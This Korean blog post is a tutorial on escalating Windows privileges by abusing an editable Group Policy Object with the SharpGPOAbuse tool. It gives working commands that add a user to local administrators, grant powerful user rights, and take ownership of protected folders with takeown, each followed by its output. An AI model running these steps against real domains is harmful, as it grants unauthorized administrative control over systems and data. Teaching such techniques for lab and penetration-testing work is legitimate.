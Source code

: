 ```yaml
---
layout: post
title: 윈도우 그룹폴리시 취약점점
subtitle: SharpGPOAbuse를 이용한 윈도우 권한 상승 방법법
category: knowledge
thumbnail-img: /assets/img/knowledge/sharp.webp
tags: [windows, GPO, grouppolicy, sharpgpoabuse]
author: Hong
---
```

윈도우 머신의 그룹 폴리시에 설정 미스가 있을 때 이를 이용하여 권한을 상승시킬 수 있다.
# Group policy 확인
`Get-Gpo -All`명령어로 리스트를 확인할 수 있다.
```powershell
DisplayName      : Default Domain Policy
DomainName       : test.com
Owner            : TEST\Domain Admins
Id               : 31b2f340-016d-11d2-945f-00c04fb984f9
GpoStatus        : AllSettingsEnabled
Description      :
CreationTime     : 8/5/2022 6:20:58 PM
ModificationTime : 10/25/2022 5:39:34 PM
UserVersion      : AD Version: 3, SysVol Version: 3
ComputerVersion  : AD Version: 70, SysVol Version: 70
WmiFilter        :

DisplayName      : Default Domain Controllers Policy
DomainName       : test.com
Owner            : TEST\Domain Admins
Id               : 6ac1786c-016f-11d2-945f-00c04fb984f9
GpoStatus        : AllSettingsEnabled
Description      :
CreationTime     : 8/5/2022 6:20:58 PM
ModificationTime : 10/25/2022 5:34:04 PM
UserVersion      : AD Version: 1, SysVol Version: 1
ComputerVersion  : AD Version: 2, SysVol Version: 2
WmiFilter        :
```
두개가 나오는데 이 중 위의 폴리시의 권한을 확인해보겠다.
```
Get-GPPermission -Guid 31b2f340-016d-11d2-945f-00c04fb984f9 -TargetType User -TargetName <유저명>

Trustee     : TEST
TrusteeType : User
Permission  : GpoEditDeleteModifySecurity
Inherited   : False
```
위의 퍼미션을 보면 Edit가 가능한 것을 알 수 있다.

이 그룹 폴리시를 수정해서 유저의 권한을 상승시킬 수 있다.

# 권한 상승 및 추가
`.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount <유저명> --GPOName "Default Domain Policy"`

위에서 발견한 폴리시 이름을 GPOName에 넣고 추가할 유저를 적는다.

변경 사항을 적용시키기 위해 `gpupdate /force`를 입력.

그 후`net localgroup administrators` 명령어로 로컬 그룹 관리자 리스트를 확인해보면 새롭게 유저가 추가 된 것을 확인할 수 있다.

그 외에도 원하는 특권을 추가시키는 것도 가능하다. 

예를들어, 아래는 추가 전 현재 가지고 있는 특권들의 리스트.
```powershell
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= =======
SeMachineAccountPrivilege     Add workstations to domain                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled
```
이제 새로운 특권들을 추가해보겠다.
```powershell
./SharpGPOAbuse.exe --AddUserRights --UserRights "SeTakeOwnershipPrivilege,SeRemoteInteractiveLogonRight" --UserAccount charlotte --GPOName "Default Domain Policy"
```
위와 같이 추가해준 다음 `gpupdate /force`을 입력 후 유저를 한 번 로그아웃 한다. 그리고 다시 로그인하면 새롭게 특권들이 추가된 것을 확인할 수 있다.
```powershell
PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
```
이렇게나 많은 권한들이 추가된 것을 알 수 있다! 

새로 생긴 특권들을 이용하여 다음 명령어를 사용하면 폴더의 권한을 빼앗는 것까지 가능하다.
`takeown /F "C:\Users\Path-With-No-Permission" /A /R /D Y`

초기 진입 후 권한 상승시 그룹 폴리시를 확인해 볼 것!